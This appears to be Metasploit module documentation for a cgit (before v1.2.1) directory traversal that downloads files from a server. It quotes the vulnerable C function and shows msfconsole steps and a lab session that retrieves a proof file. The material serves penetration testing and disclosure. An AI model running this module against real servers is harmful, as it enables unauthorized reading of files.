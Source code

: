 ## Description

cgit before v1.2.1 has a directory traversal vulnerabiltiy when `cgitrc` has the `enable-http-clone` value set to 1. The directory traversal can be used to download files from the remote host. This module has been tested against cgit v1.1 running on Ubuntu 18.04.

## Vulnerable Application

[cgit before v1.2.1](https://git.zx2c4.com/cgit/)

### Vulnerability Details from Project Zero

There is a directory traversal vulnerability in cgit_clone_objects(), reachable when the configuration flag enable-http-clone is set to 1 (default):

```
void cgit_clone_objects(void)
{
    if (!ctx.qry.path) {
        cgit_print_error_page(400, "Bad request", "Bad request");
        return;
    }

    if (!strcmp(ctx.qry.path, "info/packs")) {
        print_pack_info();
        return;
    }

    send_file(git_path("objects/%s", ctx.qry.path));
}
```

send_file() is a function that simply sends the data stored at the given filesystem path out over the network.
git_path() partially rewrites the provided path and e.g. prepends the base path of the repository, but it does not sanitize the provided path to prevent directory traversal.

ctx.qry.path can come from querystring_cb(), which takes unescaped data from the querystring.

## Options

**REPO**

Git repository on the remote server

## Verification Steps

1. `./msfconsole -q`
2. `set rhosts <rhost>`
3. `set targeturi <uri>`
4. `set repo <repo>`
5. `run`

## Scenarios

### Ubuntu 18.04 x64, cgit | 1.1+git2.10.2-3build1

```
msf5 > use auxiliary/scanner/http/cgit_traversal
msf5 auxiliary(scanner/http/cgit_traversal) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf5 auxiliary(scanner/http/cgit_traversal) > set targeturi /mygit/
targeturi => /mygit/
msf5 auxiliary(scanner/http/cgit_traversal) > set repo test
repo => test
msf5 auxiliary(scanner/http/cgit_traversal) > set filepath /home/msfdev/proof.txt
filepath => /home/msfdev/proof.txt
msf5 auxiliary(scanner/http/cgit_traversal) > set verbose true
verbose => true
msf5 auxiliary(scanner/http/cgit_traversal) > run

[+] 172.22.222.123:80     - 
you found me!

[+] File saved in: /home/msfdev/.msf4/loot/20180813150517_default_172.22.222.123_cgit.traversal_235024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
